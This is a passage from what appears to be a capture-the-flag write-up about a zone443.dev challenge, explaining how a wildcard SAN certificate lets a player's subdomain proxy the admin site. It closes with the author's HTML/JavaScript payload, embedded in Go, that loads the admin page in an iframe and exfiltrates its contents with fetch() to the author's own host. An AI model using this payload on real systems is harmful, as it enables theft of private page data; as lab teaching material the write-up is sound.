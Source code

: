 **This should *not* have happened**. Accessing the admin site through a TCP proxy on a different domain should have raised a big red flag to the browser. Why didn't it notice that it received a certificate for `admin.zone443.dev` when trying to access `lrindels2.zone443.dev`?!

Viewing the `admin.zone443.dev` certificate sheds more light on the situation. 
<div align="center">

<img src="img/san.png">
</div>

The [SAN](https://www.entrust.com/blog/2019/03/what-is-a-san-and-how-is-it-used/) that the browser is using to validate the domain of the server has a wildcard! This means that any subdomain can proxy requests to the admin page without triggering any warnings. 

This was surprising, but it still took a while for it to sink in why this is a big deal.

### Exploit
If this were vanilla HTTP it would be obvious to just read the proxied connection and get the flag. But since this is TLS, the proxied traffic is completely unreadable right?

Kind of. The proxied traffic will be impossible to read, but we can take advantage of the fact that we can make requests to `lrindels2.zone443.dev` and have it return the contents of the admin page. Before, iframes and cross-origin requests were off-limits because of the different domain, but now we can make it seem like they're on the same domain! Here's the game plan:

1. Serve a payload on `lrindels2.zone443.dev` that contains an iframe that also points to `lrindels2.zone443.dev`.
2. Request contact from the admin
3. After the payload is sent to the admin, stop serving the payload and instead proxy requests through to `admin.zone443.dev` so that the request for the iframe from the admin will retrieve the contents of the admin page. 
4. Start *another* server on a different port to retrieve the exfiltrated contents
5. Once the admin has loaded the iframe the admin page, send the contents to `https://lrindels2.zone443.dev:80` 

This was the payload I used:

```go
return "<html>" +
"<body>" +
"<script>" +
`function load(frame) {
        var exfil = encodeURI(window.frames[0].document.body.innerHTML)
        fetch('https://lrindels2.zone443.dev:80/loaded-'+exfil)
    };` +
"</script>" +
"Hello, " + user + ".\n" +
"<iframe src='/' id='flag' title='Test Panel' onload=\"load('this')\"></iframe>\n" +
"</body>" +
"</html>"
```
